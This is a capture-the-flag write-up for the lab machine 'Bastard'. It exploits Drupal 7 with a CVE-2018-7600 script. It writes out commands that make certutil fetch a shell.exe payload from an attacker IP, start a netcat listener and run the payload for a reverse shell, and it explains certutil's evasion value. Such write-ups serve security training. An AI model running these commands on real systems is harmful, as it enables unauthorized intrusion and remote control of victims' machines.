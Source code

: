 # 🎯 Bastard

<figure><img src="../../.gitbook/assets/image (1099).png" alt=""><figcaption></figcaption></figure>

I start with nmap:

<figure><img src="../../.gitbook/assets/image (1101).png" alt=""><figcaption></figcaption></figure>

On the webpage i don't find anything interesting so i decide to register a user:

<figure><img src="../../.gitbook/assets/image (1100).png" alt=""><figcaption></figcaption></figure>

Looks like we can't register

<figure><img src="../../.gitbook/assets/image (1102).png" alt=""><figcaption></figcaption></figure>

We then see that there is Drupal 7 running:

<figure><img src="../../.gitbook/assets/image (1103).png" alt=""><figcaption></figcaption></figure>

So looking at the possible exploits ->

We find this exploit:&#x20;

<figure><img src="../../.gitbook/assets/image (1105).png" alt=""><figcaption></figcaption></figure>

That runs just find:

<figure><img src="../../.gitbook/assets/image (1106).png" alt=""><figcaption></figcaption></figure>

So now we are going to create a directory and import our reverse shell in it:

<figure><img src="../../.gitbook/assets/image (1107).png" alt=""><figcaption></figcaption></figure>

```
python3 drupa7-CVE-2018-7600.py http://10.129.233.169 -c "certutil -urlcache -f http://10.10.14.159:8080/shell.exe c:\temp\shell.exe"
```

The command you provided uses `certutil`, a command-line utility that's part of Windows. `certutil` is typically used for managing certificates and certificate authority (CA) information. However, it can also be repurposed for downloading files

* **certutil**: This is the main executable for the certificate utility.
* **-urlcache**: This option specifies that the command is to work with the URL cache. It allows `certutil` to interact with URLs and perform operations such as retrieving data from a web address.
* **-f**: This flag stands for "force" and is used to force the operation. It means `certutil` will overwrite the file if it already exists at the specified destination.
* [**http://10.10.14.159:8080/shell.exe**](http://10.10.14.159:8080/shell.exe): This is the URL from which `certutil` will download the file. In this case, it is an executable file named `shell.exe` hosted on a server with the IP address `10.10.14.159` and port `8080`.
* **c:\temp\shell.exe**: This is the local path where the downloaded file will be saved. The file will be stored as `shell.exe` in the `c:\temp` directory.

`certutil` is available by default on Windows systems, meaning the attacker does not need to install additional software, which could be detected.

Now we just need to trigger the reverse shell:

```
nc -nlvp 5454
python3 drupa7-CVE-2018-7600.py http://10.129.233.169 -c "c:\temp\shell.exe"
```

<figure><img src="../../.gitbook/assets/image (1108).png" alt=""><figcaption></figcaption></figure>
